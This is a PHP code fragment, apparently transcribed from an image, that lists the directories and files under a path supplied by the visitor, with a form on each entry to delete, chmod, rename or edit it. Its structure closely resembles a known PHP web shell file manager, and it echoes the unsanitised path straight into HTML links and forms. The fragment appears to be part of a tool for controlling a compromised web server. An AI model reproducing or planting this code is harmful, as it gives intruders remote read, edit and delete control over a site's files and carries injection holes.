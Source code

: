 foreach($scandir as $dir){
if(!is_dir("$path/$dir") || $dir == '.' || $dir == '..') continue;
echo "<tr>
<td><a href=\"?path=$path/$dir\">$dir</a></td>
<td width='140'><center>-</center></td>
<td width='140'><center>";
if(is_writable("$path/$dir")) echo '<font color="Blue">';
elseif(!is_readable("$path/$dir")) echo '<font color="red">';
echo perms("$path/$dir");
if(is_writable("$path/$dir") || !is_readable("$path/$dir")) echo '</font>';

echo "</center></td>
<td width='160'><center><form method=\"POST\" action=\"?option&path=$path\">
<select name=\"opt\">
<option value=\"\"></option>
<option value=\"delete\">Delete</option>
<option value=\"chmod\">Chmod</option>
<option value=\"rename\">Rename</option>
</select>
<input type=\"hidden\" name=\"type\" value=\"dir\">
<input type=\"hidden\" name=\"name\" value=\"$dir\">
<input type=\"hidden\" name=\"path\" value=\"$path/$dir\">
<input type=\"submit\" value=\"Oke\" />
</form></center></td>
</tr>";
}
echo '<tr class="first"><td></td><td></td><td></td><td></td></tr>';
foreach($scandir as $file){
if(!is_file("$path/$file")) continue;
$size = filesize("$path/$file")/1024;
$size = round($size,3);
if($size >= 1024){
$size = round($size/1024,2).' MB';
}else{
$size = $size.' KB';
}

echo "<tr>
<td><a href=\"?filesrc=$path/$file&path=$path\">$file</a></td>
<td width='140'><center>".$size."</center></td>
<td width='140'><center>";
if(is_writable("$path/$file")) echo '<font color="Blue">';
elseif(!is_readable("$path/$file")) echo '<font color="red">';
echo perms("$path/$file");
if(is_writable("$path/$file") || !is_readable("$path/$file")) echo '</font>';
echo "</center></td>
<td width='160'><center><form method=\"POST\" action=\"?option&path=$path\">
<select name=\"opt\">
<option value=\"\"></option>
<option value=\"delete\">Delete</option>
<option value=\"chmod\">Chmod</option>
<option value=\"rename\">Rename</option>
<option value=\"edit\">Edit</option>
</select>
<input type=\"hidden\" name=\"type\" value=\"file\">
<input type=\"hidden\" name=\"name\" value=\"$file\">
<input type=\"hidden\" name=\"path\" value=\"$path/$file\">
<input type=\"submit\" value=\"Oke\" />
</form></center></td>
</tr>";
}
echo '</table>
</div>';
}
